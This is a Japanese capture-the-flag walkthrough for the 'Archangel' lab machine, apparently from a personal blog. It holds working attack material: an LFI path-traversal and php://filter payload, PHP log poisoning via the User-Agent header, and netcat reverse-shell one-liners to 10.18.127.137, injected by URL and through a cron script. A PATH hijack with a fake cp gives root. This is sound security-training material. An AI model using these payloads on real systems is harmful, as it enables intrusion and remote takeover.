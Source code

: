 ```yaml
---
title: "Archangel"
date: 2024-03-16T13:41:58+09:00
draft: false
---
```


### 1st flag

- metafive.thm
- /etc/host への追加

### 2nd flag

- robots.txt にある disallow にアクセスすると php ページに出る
- LFI
  - ```GET /test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd```
  - エスケープに気を付ける必要がある
  - ```/home/archangel/user.txt ``` が露出していたので先に見る
  - PHP ラッパで test.php の中身も見ると 2nd flag がある
    - ```?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php```
  
### user.txt

- さっきのやつ

### user2.txt

- ログポイズニング
  - burp suite でパケットをキャッチ
  - ```”User-Agent: <?php system($_GET['cmd']); ?>”```
  - ```GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var//log/apache2/access.log&cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|sh+-i+2>%261|nc+10.18.127.137+1234+>/tmp/f HTTP/1.1```
    - 空白は +, & は %26 にエスケープする
    - local で nc で待ち構えているとリバースシェルがもらえる
- archangel が user2.txt の権限をもっている
  - crontab
  - /opt/helloworld.sh が動いている
  - ```echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.127.137 4444 >/tmp/f” > /opt/hellowold.sh```

### root.txt

- archangel の home 内のファイルを見ると backup  というバイナリがある
  - strings で見るとワイルドカードの記述
    - ```cp /home/user/archangel/myfiles/* /opt/backupfile```
  - cp が絶対パスで書かれていないのでこれを書きかえる

```shell
archangel@ubuntu:~/secret$ $PATH
bash: /usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory

archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH

archangel@ubuntu:/tmp$ $PATH
$PATH
bash: /tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
```

- 次に cp を作る

``` shell
archangel@ubuntu:/tmp$ echo "/bin/bash" > cp
echo "/bin/bash" > cp

archangel@ubuntu:/tmp$ cat cp
cat cp
/bin/bash
```

- chmod を忘れない
 